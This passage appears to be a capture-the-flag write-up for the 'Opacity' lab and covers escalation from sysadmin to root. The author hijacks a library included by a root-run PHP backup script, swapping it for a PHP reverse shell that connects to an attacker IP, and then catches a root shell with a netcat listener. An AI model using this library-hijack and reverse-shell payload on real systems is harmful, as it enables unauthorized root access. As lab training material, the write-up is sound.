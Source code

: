 
### sysadmin to root
in the `/home/sysadmin/` we can see a directory called `scripts` and inside the directory <br> 
we can see there is a php script that uses a bunch of libraries inside `lib/`. 

script.php:
```php
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>
```

and the funny thing is we own the `lib` directory so we can move/copy files
```shell
sysadmin@opacity:~/scripts$ ls -ld lib/
drwxr-xr-x 2 sysadmin root 4096 Jul 26  2022 lib/
```

because of the script using `lib/backup.inc.php` we can move the file to `home/sysadmin` <br>
and create a file with the same name and sneak in a reverse shell script so everytime the script <br>
runs it triggers our reverse shell.

```shell
sysadmin@opacity:~/scripts/lib$ mv backup.inc.php ../..
```
<br>
now we create the file so we are the owners and we can write into it
```shell
sysadmin@opacity:~/scripts/lib$ touch backup.inc.php
sysadmin@opacity:~/scripts/lib$ ls -ld backup.inc.php 
-rw-rw-r-- 1 sysadmin sysadmin 0 May 17 07:54 backup.inc.php
```
<br>
```shell
sysadmin@opacity:~/scripts/lib$ cat backup.inc.php 
<?php

$sock=fsockopen("10.8.28.52",9000);
exec("sh <&3 >&3 2>&3");

?>
```
<br>
now wait for the script to run, and we have root !
```shell
┌──(kali㉿rar)-[~/THM/Opacity]
└─$ nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.8.28.52] from (UNKNOWN) [opacity.thm] 50722
id
uid=0(root) gid=0(root) groups=0(root)
whoami
```